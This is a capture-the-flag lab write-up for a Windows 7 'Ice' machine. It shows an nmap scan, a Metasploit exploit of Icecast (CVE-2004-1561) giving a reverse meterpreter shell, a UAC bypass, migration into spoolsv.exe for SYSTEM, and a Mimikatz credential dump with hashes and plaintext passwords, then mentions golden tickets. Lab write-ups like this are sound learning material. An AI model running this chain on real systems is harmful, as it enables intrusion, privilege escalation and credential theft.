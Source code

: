 # ICE ROOM

## Recon

~~~
nmap -sS -sV --script=vuln
~~~

DARK-PC
port 8000 has Icecast runing on it

## Gaining Access

https://www.cvedetails.com/ shows that a excute code overflow vulnerability exists.
Called CVE-2004-1561

~~~
msfconsole
use icecast
set LHOST tun0
set RHOST <room IP address>
run
~~~

This gives a meterpreter shell

## Esculate

~~~
sysinfo 

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

getuid

Server username: Dark-PC\Dark
~~~

esculate privilage

~~~
run post/multi/recon/local_exploit_suggester
~~~

**On my local system (msf6, kali rolling) exploit/windows/local/bypassuac_eventvwr isn't
listed as a exploit**

So I ran to bypass UAC

~~~
search exploit/windows/local/bypassuac_eventvwr
set session=>1
run
~~~

getprivs shows this account has SeTakeOwnershipPrivilege

## Looting

I need to move to a process that can interact with the lsass service. I need to be
living in a process that is the same architecture and permissions as the lsass.
Printer spool does this and will restart if it is crashed.

Often when I take over a running program we ultimately load another shared 
library into the program (a dll) which includes our malicious code. 
From this, I can spawn a new thread that hosts our shell. 

~~~
migrate -N spoolsv.exe 
~~~

getuid NT AUTHORITY\SYSTEM (full admin).

To get passwords use Mimikatz

~~~
load kiwi
creds_all (retrieve all credentials)

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)

~~~

Mimikatz allows to steal darks password out of memory as Icecast runs scheduled tasks
as Dark.

golden_ticket_create (Mimikatz module) abuses a component to Kerberos 
(the authentication system in Windows domains) to maintain persistence as 
any user.



